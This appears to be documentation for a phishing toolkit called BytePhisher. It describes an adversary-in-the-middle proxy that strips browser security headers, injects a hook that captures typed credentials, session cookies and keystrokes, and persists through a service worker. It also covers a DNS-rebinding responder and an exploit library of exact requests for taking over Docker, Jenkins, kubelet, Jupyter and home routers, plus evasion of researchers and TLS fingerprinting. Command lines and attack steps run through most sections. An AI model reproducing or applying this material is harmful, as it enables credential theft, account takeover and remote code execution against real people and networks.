



# Reverse-proxy engine (adversary-in-the-middle)

Serving the real site through your link, with the victim's own authenticated session
harvested at the end of it. Covers the phishlet format, the upstream leg's TLS
fingerprint, our own response headers, DNS rebinding and the local-service library.



## Part 1 - The engine and the phishlet format

Static templates copy a login page. Proxy mode serves the real, live site and runs a
small hook inside it. The victim's browser stays on your domain, the upstream session is
genuine, and the login completes - so nothing looks broken.

```bash
# inline definition
./bytephisher.py --proxy --upstream sso.example.com --login-path /login \
    -p 8080 -t cloudflared --campaign q3-sso

# phishlet file
cp config/phishlets/example.yaml config/phishlets/sso.yaml
$EDITOR config/phishlets/sso.yaml
./bytephisher.py --proxy --phishlet config/phishlets/sso.yaml -t cloudflared
```

### What the proxy does to every response

| Upstream header / pattern | What BytePhisher does | Why |
|---|---|---|
| `Content-Security-Policy` | removed (header and `<meta>` form) | our hook script and `/__bh/*` calls would otherwise be blocked |
| `Strict-Transport-Security` | removed | stops the browser pinning the real site's HTTPS policy |
| `X-Frame-Options` | removed | lets the proxied page render normally |
| `integrity=` / `crossorigin=` on `<script>`/`<link>` | stripped | SRI hashes break the moment the response is rewritten |
| `Set-Cookie` with `Domain=` / `Secure` | scoping removed | the cookie must be usable on *your* host |
| `Location: https://upstream/...` | rewritten to a proxy path | keeps the victim on the proxy through redirects |
| absolute `https://upstream/...` in HTML | rewritten to proxy-relative | assets, links and forms all stay on your domain |
| `Content-Length` | recomputed | the body changed |

Every response also carries your own `__bhs=<sid>` session cookie next to whatever the
upstream set (two `Set-Cookie` headers) - that id ties the browser, the upstream cookie
jar and the captured data together. The per-victim `ProxySession` holds the upstream
cookie jar, so two victims never share a session.

### The hook

Injected into the `<head>` of every page matching `inject_paths`:

- intercepts form submits and `fetch`/`XMLHttpRequest`,
- reads the form fields the victim actually typed,
- collects a device fingerprint: UA, language, timezone, screen, plugin count, hardware
  concurrency, canvas hash, WebGL renderer, `navigator.webdriver`, headless hints,
- reports through `navigator.sendBeacon` (survives page unload) and falls back to a
  synchronous XHR,
- then lets the genuine submit continue, so the real login proceeds.

That last point is the difference between a page that looks right and one that behaves
right: the victim sees the real dashboard, and the engagement records the credential, the
upstream session cookies and the device profile.

### Phishlet fields

| Field | Meaning |
|---|---|
| `name` | campaign label stored with every capture |
| `upstream` | real host (`HOST` or `HOST:PORT`) |
| `scheme` | `https` (default) or `http` |
| `login_path` | path that presents the login form |
| `capture_fields` | field names the hook prioritises |
| `capture_cookies` | cookie names to harvest; `*` = all |
| `inject_paths` | regexes of paths that receive the hook |
| `block_paths` | regexes never touched (static assets, `.js`, `.css`, fonts) |
| `redirect_after` | where to send the victim when the flow completes |
| `strip_integrity` | drop SRI attributes (keep `true` once you inject) |
| `rewrite_hosts` | extra hosts whose absolute URLs should point back at us |
| `verify_tls` | verify the upstream certificate - leave `true` in real use |

### What works, what needs per-site work

Against a real public HTTPS site: page fetch, rewriting, hook injection, form POST
relayed upstream and echoed back, hook JS served, capture stored with
campaign/credential/risk flags. Known hard cases:

1. **Sites that pin SRI on third-party bundles.** Stripping `integrity` fixes it, but a
   site with a strict CSP reporting policy notices.
2. **WebSocket-heavy apps** (chat, live dashboards): the relay handles the upgrade, but a
   site with a non-standard handshake breaks visibly.
3. **HTTP/2-only endpoints** - we speak HTTP/1.1 upstream; most sites accept it, a few
   force h2.
4. **Client-side fingerprinting that checks the TLS/JS environment** - a headless-driven
   relay looks automated (that is what the risk score is for).
5. **Session replay** (reusing the harvested cookie from a different IP/UA/geo) trips
   provider risk engines; the cookie is captured and usable, but the provider may step up
   with MFA or block.
6. **MFA is relayed, not bypassed.** The victim's real second factor goes to the real site
   through the proxy.

### Operational notes

- Proxy mode does not use static templates; `--list`/template flags are ignored.
- Gating flags (`--allow-country`, `--block-country`, `--max-hits`, `--active-hours`,
  `--block-researchers`, `--block-datacenter`) apply in both modes: the proxy runs the
  same `Gate.check()` on every GET, HEAD and POST before it forwards anything, and a
  refusal is written to `blocked`. Forwarding headers (`X-Forwarded-For`,
  `CF-Connecting-IP`, `X-Real-IP`) are trusted by default because a tunnel sits in front;
  pass `--no-trust-headers` when the listener is exposed directly, otherwise a spoofed
  header decides the gate's country and rate decisions.
- `--no-verify-tls` exists for lab targets with self-signed certificates; do not use it
  against a real site.

## Part 2 - DNS rebinding

A browser cannot read a response from a different origin, which is why "the link reaches
the LAN" normally stops at detection. Rebinding is the way around it: the campaign
hostname is answered by BytePhisher itself, first with the operator's public address (so
the page loads and its script runs), then - one second later - with `127.0.0.1` or a LAN
address. The browser now treats `http://<campaign-host>:2375/...` as same-origin with the
page, so the script can read the response: a router admin panel, the Docker API, Jupyter,
Elasticsearch, Ollama, a kubelet.



```

 click --> page loads from the operator's host (first answer)
              |
              |-- collector runs: device dump + live stream + keystroke log
              |
              `-- TTL 1s expires --> the same name now answers 127.0.0.1
                                        |
                                        |-- rebindProbe: 12 local ports, readable
                                        |-- lanRecon: the gateway + LAN hosts, existence
                                        `-- service worker: keeps reporting after the tab closes

```

```bash
sudo ./.venv/bin/python bytephisher.py --proxy --upstream login.example.com \
    --rebind-domain rb.example.com --rebind-target 127.0.0.1 \
    --rebind-public auto --rebind-port 53
```

What you must provide: a domain whose NS record points at this host (a wildcard A + NS
delegation for the campaign subdomain). The tool is the authoritative responder; the
delegation is DNS-provider work.

| Flag | Meaning |
|---|---|
| `--rebind-domain DOMAIN` | run the responder for this name |
| `--rebind-target IP[,IP]` | what the name flips to (rotates when several) |
| `--rebind-public IP` | the first answer (default: auto-detected) |
| `--rebind-port N` | DNS port (53 needs root; a lab can use a high port) |
| `--rebind-after N` | how many queries get the public address first |
| `--rebind-ttl N` | answer TTL (1 second keeps the flip inside the visit) |

### What is reachable, and what is not

| Target | Reachable | Why |
|---|---|---|
| `http://127.0.0.1:<port>` with rebinding | readable | same-origin after the flip |
| LAN host, `http://192.168.x.x` | readable with `--rebind-target 192.168.x.x` | same-origin after the flip |
| Router admin panels, Docker API, Jupyter, Elasticsearch, Ollama, kubelet, Portainer, Kibana, Prometheus, Home Assistant, CUPS, VNC | readable (the port list in `core/rebind.py`) | they speak plain HTTP |
| A service behind HTTPS with a certificate that does not match the campaign name | not readable | the TLS handshake fails before any content |
| HSTS-pinned hosts | not readable | the browser refuses plain HTTP for them |
| Anything requiring a preflighted `application/json` POST from a public origin | blocked by Private Network Access | Chrome preflights public -> private requests; form-encoded posts and GETs are not preflighted |
| The victim's filesystem, other applications, the OS | not reachable | a browser is not a shell |

`lanRecon` (in the collector) is the weaker, always-available half: without rebinding,
`` probes only prove something is listening on a LAN address, because the response
is opaque. With rebinding the same request becomes readable.

### Persistence: reporting that outlives the visit

The collector registers a service worker (`/__bh/sw.js`, `Service-Worker-Allowed: /`)
served from the campaign origin - Chrome refuses a `blob:` URL for registration.

| In the worker | Effect |
|---|---|
| `fetch` handler | a POST to a login-ish URL is cloned and queued, so a credential post made after our page is gone is still reported |
| IndexedDB queue | the queue survives a dead connection, a navigation and a closed tab |
| `sync` / `periodicsync` | drains the queue when the network returns |
| `flush()` | posts each item to the collector and clears the queue only for what the server accepted |

The keystroke log is the other half: an ordered key sequence with modifiers (`c/s/a/m`),
the field it went to, IME composition (a non-latin keyboard is not lost) and
`contenteditable` input, streamed on its own beacon kind.

## Part 3 - The local-service exploit library

Rebinding makes a local service readable from the victim's page. This is the half that
turns readable into executable: because the rebound origin IS the target origin, no CORS
preflight applies, so an `application/json` POST is allowed - which is what a Docker API,
a Jenkins console or a kubelet requires.



`core/exploits.py` is data, not prose: a fingerprint (how the service is recognised) and
actions (the exact request). Highest payoff first, because the per-page-load plan is
bounded.

| Port | Service | The step that matters |
|---|---|---|
| 2375 | Docker API | `POST /containers/create` with `Binds: ["/:/host"]` and `Privileged: true` -> host root |
| 8080 | Jenkins / Tomcat / proxy | `POST /scriptText` (Groovy on the controller) or `/manager/html/deploy` |
| 8888 | Jupyter | `POST /api/sessions` + the kernel websocket -> code as the user |
| 11434 | Ollama | `POST /api/pull` writes a file; `/api/create` reads one |
| 10250 | kubelet | `POST /run/<ns>/<pod>/<container>` -> exec inside a pod |
| 9000 | Portainer | `/api/users/admin/init` takes over an unconfigured instance |
| 9200 | Elasticsearch | `POST /_scripts` where dynamic scripting is enabled |
| 5984 | CouchDB | `PUT /_config/query_servers/...` (admin party) |
| 3000 | Grafana / dev server | `POST /api/datasources` -> the backend fetches a URL (SSRF) |
| 8500 | Consul | service registration with an HTTP check -> SSRF |
| 15672 | RabbitMQ management | definitions import adds an administrator |
| 8123 | Home Assistant | `/api/services/...` -> locks, alarms, cameras |
| 9091 | Transmission | `/transmission/rpc` writes a file to disk |
| 631 | CUPS | the printer API reads a host file into a job |
| 4444 | Selenium Grid | a session whose capabilities start a binary |
| 6443 | Kubernetes API | anonymous access, where it is misconfigured |
| 5000 / 7001 / 2376 | dev server / WebLogic / Docker TLS | fingerprint and report |

```bash
./.venv/bin/python bytephisher.py --exploit-list
./.venv/bin/python bytephisher.py --rebind-domain rb.example.com \
    --exploit-ports 2375,8080 --exploit-limit 4
```

### The router: network-level payoff

```bash
./.venv/bin/python bytephisher.py --router-plan 192.168.1.1
```

The gateway decides where every device on the LAN resolves. `core/exploits.py` carries
the login paths and default credentials for the panels that are actually deployed
(TP-Link, D-Link, Netgear, Huawei, ZTE, Tenda, JioFiber, Airtel, MikroTik, OpenWrt/LuCI,
pfSense, ASUSWRT) and the payoff: change the resolver to the rebinding responder, then
add a port forward for the service worth exposing. Once the resolver is ours, the whole
network can be pointed at a clone.

### What this does not do

| Claim | Reality |
|---|---|
| "root on any machine" | only where a service in the list is exposed and reachable; a machine with nothing listening on those ports is untouched |
| "works through HTTPS targets" | a service behind a certificate that does not match the campaign name cannot be read at all |
| "preflighted JSON always works" | it works because rebinding makes the request same-origin; a cross-origin JSON POST from a public page is still blocked by Private Network Access |
| "the browser is a shell" | it is not: file write and code execution happen only through a service that already offers them |
| "silent" | a container appearing, a Jenkins build, a printer job and a DNS change are all visible to anyone watching those systems |

## Part 4 - Realism and fingerprints

### The upstream leg's fingerprint

A reverse proxy is judged by two clients: the browser the victim uses (theirs, and
perfect) and the client that talks to the real site (ours, Python by default).

```bash
./bytephisher.py --proxy --phishlet config/phishlets/example.yaml --impersonate chrome -t cloudflared
./bytephisher.py --proxy --phishlet ... --server-header nginx
./bytephisher.py --proxy --phishlet ... --server-header ''   # omit
```

| What | Without the profile | With the profile |
|---|---|---|
| ClientHello (JA3) | Python's ciphers, no GREASE, fixed extension order | the profile's ciphers, curves and GREASE, with a per-request extension permutation |
| HTTP version | 1.1 only | whatever the profile negotiates (2/3) |
| `Server` (static mode) | `BaseHTTP/0.6 Python/3.x` | `nginx` (configurable; empty omits it) |
| `Server`/`Date` (proxy mode) | ours plus the upstream's (two of each) | the upstream's, once; ours only when it labelled itself with nothing |

`curl_cffi` is optional: without it every request falls back to the plain transport and
`--impersonate` is refused with the reason.

### Clone realism: mirroring a real page

`tools/import_site.py --url <login page>` mirrors the page's own assets (CSS, JS, images,
fonts pulled in from CSS) into `<template>/assets/` and rewrites every reference to a
local relative path, so the victim's browser never touches the real brand's CDN.
Third-party beacon scripts are removed rather than mirrored, SRI and `crossorigin` are
stripped from the rewritten tags, and the report says what was mirrored, what was removed
and what was left remote.

Absolute asset URLs put the victim's IP in the brand's CDN logs with a Referer from the
campaign domain, which correlates the clone with the brand, and any blocked or
geo-restricted asset makes the clone render obviously fake.

### No-fetch attack paths

`fetch()` is what a browser refuses first: CORS needs a readable response, the
private/local network access rules gate a public page reaching a private address, and a
JSON content type forces a preflight. A form submission is a navigation, so none of that
applies - the trade is that the response is not directly readable, which is handled: the
form is submitted into a hidden named iframe and, after the rebinding flip, that frame is
same-origin, so the answer is read back and reported with the rest of the chain.

Seven services in the library carry a form path: Jenkins `/scriptText` (Groovy over a
form POST - blind RCE), Grafana `/login`, CouchDB `/_session`, Jupyter `/login`, RabbitMQ
`/api/whoami`, CUPS `/admin/` (queue operations), and Prometheus-style `delete_series`
where the service accepts form parameters. The collector runs them beside the fetch steps
and reports what was submitted and, when the frame is readable, what came back.
